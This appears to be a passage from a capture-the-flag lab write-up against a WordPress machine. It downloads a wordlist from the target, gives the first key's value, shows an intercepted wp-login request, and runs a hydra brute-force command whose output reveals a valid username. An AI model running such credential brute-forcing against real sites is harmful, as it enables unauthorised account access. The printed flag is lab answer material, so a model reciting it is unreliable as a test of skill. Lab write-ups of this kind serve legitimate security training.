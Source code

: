 ```shell
wget http://10.10.243.162/fsocity.dic
```


Going to `10.10.243.162/key-1-of-3.txt` we can find the first flag.

> What is key 1? `073403c8a58a1f80d943455fb30724b9`

Next we can find a `10.10.243.162/wp-login` subpage which contains a wordpress login page. 

Let's try to find login using found dictionary:. First, let’s intercept the login with Burp Suite:

```http
POST /wp-login.php HTTP/1.1
Host: 10.10.243.162
Content-Length: 100
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.243.162
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.243.162/wp-login
Accept-Encoding: gzip, deflate
Accept-Language: ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: wordpress_test_cookie=WP+Cookie+check
Connection: close

log=vlad&pwd=pass&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.243.162%2Fwp-admin%2F&testcookie=1
```

Now using hydra:

```shell
hydra -L fsocity.dic -p pass 10.10.243.162 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.175.84%2Fwp-admin%2F&testcookie=1:F=Invalid username"
```

```
vladislav@Mac ~ % hydra -L fsocity.dic -p pass 10.10.243.162 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.175.84%2Fwp-admin%2F&testcookie=1:F=Invalid username"
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-12-14 13:14:42
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://10.10.243.162:80/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.175.84%2Fwp-admin%2F&testcookie=1:F=Invalid username
[80][http-post-form] host: 10.10.243.162   login: Elliot   password: pass
```
